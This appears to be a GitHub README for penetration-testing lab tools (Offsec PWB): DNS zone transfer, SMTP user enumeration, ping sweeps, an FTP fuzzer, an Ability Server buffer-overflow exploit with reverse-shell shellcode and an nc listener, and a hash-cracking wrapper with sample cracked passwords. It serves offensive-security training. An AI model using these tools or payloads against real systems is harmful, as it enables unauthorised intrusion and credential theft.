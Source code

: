 Tools for Offsec PWB Labs
========

axfr.rb
--------

An example Ruby script that attempts a full DNS zone transfer (AXFR) using dnsruby

```
Usage: axfr.rb [options] zone

Available options:
    -n, --nameserver HOSTNAME        Specify the nameserver to AXFR zone from
    -w, --timeout SECONDS            Wait timeout in seconds
    -v, --verbose                    Be more verbose
    -h, --help                       Show this help
```

smtpvrfy.rb
--------

Multithreaded SMTP user enumartion tool. You can fine tune the number of threads and users checked in one connection. 
Please note that some SMTP servers might not allow you to do more than a few VRFY calls. The default is to 
reconnect after checkign 3 users. Without the dictionary file the tool only checks for a few standard users. 

```
# ./smtpvrfy.rb -h
Usage: smtpvrfy.rb [options] SMTP_SERVER[:PORT]
Where available options:
    -t, --threads N                  Number of threads (connections) to use - Default: 50
    -c, --chunk N                    Recycle the connection (thread) after N number of users checked - Default: 3
    -u, --user FILE                  Read a dict file with users
    -d, --debug                      Enable session debug
    -h, --help                       Show this help1

``` 
Example:

```
# ./smtpvrfy.rb -t 10 -c 5 -u userdict.txt 192.168.11.215
Time: 00:00:20 |===================================================>>| 100% VRFY
adm@redhat.acme.com
apache@redhat.acme.com
bin@redhat.acme.com
bob@redhat.acme.com
```
mping.sh
---------

Just a simple Bash script that indentifies all live hosts (responding to ping) on a given network(s).

```
Usage: ./mping.sh [-t] <IP Range>[,<IP Range>]
  Options:
  -t <n>: Number of ping threads to use (Default: 50)
  -v    : Verbose mode

  Example:
      ./mping.sh 192.168.11.200-192.168.11.254
      ./mping.sh -t 100 192.168.1.1-192.168.1.100,10.1.0.0-10.2.1.1

```

mping.rb
--------
Just a simple Ruby script that indentifies all live hosts (responding to ping) on a given network(s).

```
# ./mping.rb 
Usage:
    mping.rb [options]
    -t, --thread [N]                 Threads to spawn
    -v, --verbose                    Run verbosely
    -h, --help                       Show help
Example:
    mping.rb 192.168.10.200-192.168.10.254
    mping.rb -t 100 10.1.2.3-10.1.2.254,192.168.1.1-192.168.10.254
```
Example:

```
# ./mping.rb -t100 192.168.11.200-192.168.11.254,192.168.13.200-192.168.13.254,192.168.15.200-192.168.15.254,192.168.17.200-192.168.17.254 
Time: 00:00:10 |===============================================================================================================================================================================>>| 100% Ping
192.168.11.201
192.168.11.202
192.168.11.205
192.168.11.206
192.168.11.208
```

ftpfuzz.rb
---------

A basic ftp fuzzer

```
Usage: ftpfuzz.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -c, --command COMMAND            FTP command to fuzz
    -P, --payload PAYLOAD            Payload to repeat
    -i, --increment INT              Increment the payload times
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```

Example:

```
# ./ftpfuzz.rb -v -u ftp -p ftp -P A -i 300 -c APPE 192.168.1.4 
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.

[*] Using: APPE A
[*] Sending A of size 1 characters
550 File write/modification access disallowed.
[*] Sending A of size 301 characters
550 File write/modification access disallowed.
[*] Sending A of size 601 characters
550 File write/modification access disallowed.
[*] Sending A of size 901 characters
550 File write/modification access disallowed.
[*] Sending A of size 1201 characters
./ftpfuzz.rb:73:in `gets': Connection reset by peer (Errno::ECONNRESET) 
```
ability_appe_exploit.rb
---------------

Exploit against Ability Server <= 2.34 using buffer - Windows XP SP2 

```
Usage: ability_appe_exploit.rb [options] ftp-host[:port]

Where available options:
    -u, --user USER                  FTP Username
    -p, --pass PASS                  FTP Password
    -s, --shellcode TYPE             Shellcode to inject
      Where TYPE can be:
                          simple
                          pattern
                          revshp
                          revsht
                          bind
    -w, --winver                     Windows version
    -v, --verbose                    Verbose output
    -h, --help                       Show this help
```
Example usage:

```
$ nc -l -n -p 4444

$ ability_appe_exploit.rb -u ftp -p ftp -v -s revsht 192.168.11.97
220 Welcome to Code-Crafters - Ability Server 2.34. (Ability Server 2.34 by Code-Crafters).
USER ftp
331 Please send PASS now.
PASS ftp
230- Welcome to Code-Crafters - Ability Server 2.34.
230 User 'ftp' logged in.
[*] Deliverying the payload...
APPE ��������������������������....
```

offcrack.rb
------------

It is a trivial wrapper that reads pwdump file and uses http://cracker.offensive-security.com 
to crack the hashes. Please note that Offsec has blocked access to people without a valid
priority code.

Example usage:

```
# ./offcrack.rb -c 12345678 /tmp/pwdump
admin:password123
Administrator:Y1M125H9fop
alice:!Q2w#E4r
backup:backup
bikingviking:bikingviking
```
